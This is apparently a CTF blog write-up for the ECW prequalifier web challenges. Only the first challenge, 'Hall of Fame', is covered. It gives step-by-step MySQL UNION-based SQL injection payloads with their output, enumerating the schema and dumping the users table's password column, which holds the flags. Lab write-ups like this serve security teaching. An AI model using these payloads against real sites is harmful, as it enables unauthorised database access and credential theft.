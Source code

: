 ```yaml
---
layout: post
title: ECW CTF - Web Writeups
---
```


Prequals online
 - [Web 50 - Hall of Fame](ECW-CTF/#web-50---hall-of-fame)
 - [Web 100 - Pass Through](ECW-CTF/#web-100---pass-through)
 - [Web 150 - GoldFish](ECW-CTF/#web-150---goldfish)
 - [Web 175 - Magic Car](ECW-CTF/#web-175---magic-car)

## Web 50 - Hall of Fame
This challenge was a basic SQL injection, let's follow our [methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL injection/MySQL Injection.md) and extract the informations in the database. First we need to extract the columns number of the current "SELECT column1, column2 FROM ..."
{% highlight php%}
1'  union select 1,2,3,4,5,6#
{% endhighlight %}
We can clearly see the injection point is located in the 4th columns.

Let's extract the version now
{% highlight php%}
1'  union select 1,2,3,version(),5,6#
5.7.17-0ubuntu0.16.04.1	5
{% endhighlight %}

Extract database name
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,schema_name,0x7c),5,6 fRoM information_schema.schemata#
3	|information_schema|,|ecw|	5
{% endhighlight %}
This is interesting, there is an ECW database. Let's dig into it by extracting the table name.
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6 fRoM information_schema.tables wHeRe table_schema="ecw"#
3	|users|	5
{% endhighlight %}

Extract columns name
{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6 fRoM information_schema.columns wHeRe table_name="users"#
3	|rank|,|username|,|score|,|password|,|comment|	5
{% endhighlight %}
That's great now we can do a simple "SELECT" query to get the username and password of every users.

{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(password),5,6 fRoM users#
ECW{69d7da73beaab34d6034211c0d848848},
ECW{e0d409de9fa2e61e6635e27fb73cc5e7},
ECW{2455afd815b54a0ce60b73074c3a652c},
ECW{cdf6c1b0ce7b41872a267d66e2b2dfa0},
ECW{8361993d2541062b311e61b0ade994ee},
ECW{420c7523b0a7ba0f8f40f8e98cad3c38},
ECW{77a66a027d20c8ecce920d3c3d8fb2c8},
ECW{03e8d7e2fc14e0a8b4b978f8367e6d3b},
ECW{b55ec992616468307c6cc4154dfd37a3},
ECW{d0c7cc155840d91c17fb3c885320ce1f},
ECW{c18018cb461d3b299bb5c437454abc80}
{% endhighlight %}
